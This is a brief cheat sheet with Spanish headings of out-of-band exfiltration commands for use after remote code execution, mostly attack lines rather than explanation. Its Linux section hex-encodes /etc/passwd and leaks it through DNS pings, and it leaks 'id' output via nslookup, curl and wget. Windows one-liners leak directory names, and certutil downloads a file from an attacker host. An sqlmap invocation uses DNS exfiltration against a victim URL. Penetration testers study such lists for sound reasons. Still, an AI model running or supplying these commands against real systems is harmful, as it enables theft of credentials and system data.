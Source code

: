 # RCE Dns-data-exfiltration

## Testing
```
dig test.4f4984e83e92a11d53b7.d.requestbin.net
ping -c 2 test.4f4984e83e92a11d53b7.d.requestbin.net
ping -n 2 test.4f4984e83e92a11d53b7.d.requestbin.net
nslookup test.4f4984e83e92a11d53b7.d.requestbin.net
```

## Windows
```
for /f %i in ('cd') do nslookup %i.4f4984e83e92a11d53b7.d.requestbin.net
for /f "tokens=1" %i IN ('cd') do (nslookup %i 4f4984e83e92a11d53b7.d.requestbin.net)
for /f "tokens=1" %i IN 'cd' do (nslookup %i 4f4984e83e92a11d53b7.d.requestbin.net)
certutil -urlcache -split -f http://atacante.com/test.txt \windows\temp\test.txt
```

## Linux
```
cat /etc/passwd | xxd -p -c 16 | while read exfil; do ping -c 1 $exfil.4f4984e83e92a11d53b7.d.requestbin.net;done
nslookup $(id).4f4984e83e92a11d53b7.d.requestbin.net
curl http://requestbin.net/r/1m8fdwf1/$(id)
wget http://requestbin.net/r/1m8fdwf1/$(id)
```

## Otros
```
sqlmap -u 'http://victima/test.php?id=1' -p uid --dbs --technique T --dbms mssql --level 5 --risk 3 --dns-domain 4f4984e83e92a11d53b7.d.requestbin.net
```

https://www.youtube.com/watch?v=Egwp5zc5ZIM
https://www.notsosecure.com/oob-exploitation-cheatsheet/
